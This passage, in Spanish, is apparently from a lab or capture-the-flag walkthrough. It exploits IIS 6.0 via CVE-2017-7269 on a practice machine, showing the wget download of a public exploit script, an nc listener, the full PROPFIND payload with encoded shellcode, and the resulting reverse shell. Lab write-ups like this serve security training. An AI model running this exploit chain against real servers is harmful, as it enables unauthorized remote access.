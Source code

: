 Nos descargaremos el siguiente exploit de GitHub para realizar la explotación.

{% embed url="https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269" %}

```bash
❯ wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/refs/heads/master/iis6%20reverse%20shell
--2025-01-26 05:33:54--  https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/refs/heads/master/iis6%20reverse%20shell
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.111.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.109.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 12313 (12K) [text/plain]
Grabando a: «iis6 reverse shell»

iis6 reverse shell                                        100%[===================================================================================================================================>]  12,02K  --.-KB/s    en 0s      

2025-01-26 05:33:55 (71,0 MB/s) - «iis6 reverse shell» guardado [12313/12313]
```

Nos pondremos en escucha por un puerto para recibir la Reverse Shell del exploit.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el explooit indicándole el target (máquina victima) y el puerto en donde se encuentra el `IIS` expuesto, también informaremos nuestra dirección IP de atacante y el puerto en donde estamos en escucha.

```bash
❯ mv iis6\ reverse\ shell IIS6.py

❯ python2 IIS6.py 10.10.10.14 80 10.10.16.5 443
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```

Verificaremos que hemos logrado obtener el acceso a la máquina objetivo.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```
